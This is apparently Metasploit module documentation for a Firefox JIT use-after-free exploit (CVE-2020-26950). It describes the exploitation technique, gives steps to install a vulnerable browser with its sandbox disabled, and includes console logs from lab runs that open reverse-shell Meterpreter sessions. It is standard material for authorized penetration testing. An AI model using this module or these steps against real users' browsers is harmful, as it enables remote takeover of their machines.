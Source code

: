## Vulnerable Application

This modules exploits CVE-2020-26950, a use after free exploit in Firefox.
The MCallGetProperty opcode can be emitted with unmet assumptions resulting
in an exploitable use-after-free condition.

This exploit uses a somewhat novel technique of spraying ArgumentsData
structures in order to construct primitives. The shellcode is forced into
executable memory via the JIT compiler, and executed by writing to the JIT
region pointer.

This exploit does not contain a sandbox escape, so firefox must be run
with the MOZ_DISABLE_CONTENT_SANDBOX environment variable set, in order
for the shellcode to run successfully.

This vulnerability affects Firefox < 82.0.3, Firefox ESR < 78.4.1, and
Thunderbird < 78.4.2, however only Firefox < 82 is supported as a target.
Additional work may be needed to support other versions such as Firefox 82.0.1.

**Vulnerable Application Installation Steps**

You can download and run a vulnerable firefox version on Linux with the following commands:
```
wget https://ftp.mozilla.org/pub/firefox/releases/79.0/linux-x86_64/en-US/firefox-79.0.tar.bz2
tar xvf firefox-79.0.tar.bz2
cd firefox
MOZ_DISABLE_CONTENT_SANDBOX=1 ./firefox
```

You can also download a vulnerable firefox version for Windows from the following location:
[https://ftp.mozilla.org/pub/firefox/releases/79.0/win64/en-US/](https://ftp.mozilla.org/pub/firefox/releases/79.0/win64/en-US/)

## Verification Steps

1. Do: `use exploit/multi/browser/firefox_jit_use_after_free`
1. Do: `set payload [PAYLOAD]`
1. Do: `set URIPATH /`
1. Do: `set LHOST [IP]`
1. Do: `set SRVHOST [IP]`
1. Do: `exploit`

## Options

### DEBUG_EXPLOIT

Show debug information during exploitation.  This will display details of the exploit during exploitation, which is useful for debugging.

## Scenarios


### Windows 10 and Firefox 79.0 with MOZ_DISABLE_CONTENT_SANDBOX=1

Start firefox without a sandbox with the following .bat file:
```
@echo off
set MOZ_DISABLE_CONTENT_SANDBOX=1
"C:\Program Files (x86)\Mozilla Firefox\firefox.exe"
```


```
msf > use exploit/multi/browser/firefox_jit_use_after_free
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf exploit(multi/browser/firefox_jit_use_after_free) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf exploit(multi/browser/firefox_jit_use_after_free) > set URIPATH /
URIPATH => /
msf exploit(multi/browser/firefox_jit_use_after_free) > set SRVHOST 192.168.56.1
SRVHOST => 192.168.56.1
msf exploit(multi/browser/firefox_jit_use_after_free) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf exploit(multi/browser/firefox_jit_use_after_free) >
[*] Started reverse TCP handler on 192.168.56.1:4444
[*] Using URL: http://192.168.56.1:8080/
[*] Server started.
[*] 192.168.56.3     firefox_jit_use_after_free - Sending / to Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0
[*] Sending stage (200262 bytes) to 192.168.56.3
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.3:49737 ) at 2022-02-16 08:23:53 +0000

```

### Ubuntu 18 and Firefox 79.0 with MOZ_DISABLE_CONTENT_SANDBOX=1 and DEBUG_EXPLOIT enabled

Start Firefox without a sandbox, e.g:
`MOZ_DISABLE_CONTENT_SANDBOX=1 ./firefox`

```
msf > use exploit/multi/browser/firefox_jit_use_after_free
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf exploit(multi/browser/firefox_jit_use_after_free) > set URIPATH /
URIPATH => /
msf exploit(multi/browser/firefox_jit_use_after_free) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf exploit(multi/browser/firefox_jit_use_after_free) > set SRVHOST 192.168.56.1
SRVHOST => 192.168.56.1
msf exploit(multi/browser/firefox_jit_use_after_free) > set DEBUG_EXPLOIT true
DEBUG_EXPLOIT => true
msf exploit(multi/browser/firefox_jit_use_after_free) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf exploit(multi/browser/firefox_jit_use_after_free) >
[*] Started reverse TCP handler on 192.168.56.1:4444
[*] Using URL: http://192.168.56.1:8080/
[*] Server started.
[*] 192.168.56.1     firefox_jit_use_after_free - Sending / to Mozilla/5.0 (X11; Linux x86_64; rv:79.0) Gecko/20100101 Firefox/79.0
[*] 192.168.56.1     firefox_jit_use_after_free - [+] got the corrupted array 16384
[*] 192.168.56.1     firefox_jit_use_after_free - [+] Leaked nursery location: 4aee8a4f6d8
[*] 192.168.56.1     firefox_jit_use_after_free - [+] AD location: 7f27fb9cc000
[*] 192.168.56.1     firefox_jit_use_after_free - [+] AB Location: 7f27e7200000
[*] 192.168.56.1     firefox_jit_use_after_free - [+] Function is at: 10d4c755fac0
[*] 192.168.56.1     firefox_jit_use_after_free - [+]   jitinfo: 10d4c7564150
[*] 192.168.56.1     firefox_jit_use_after_free - [+]   RX Region: 3774356d0e50
[*] 192.168.56.1     firefox_jit_use_after_free - [+] Shellcode start: 3774356d1030
[*] 192.168.56.1     firefox_jit_use_after_free - [*] Triggering...
[*] Sending stage (3020772 bytes) to 192.168.56.1
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.1:34946 ) at 2022-02-16 08:18:11 +0000
```
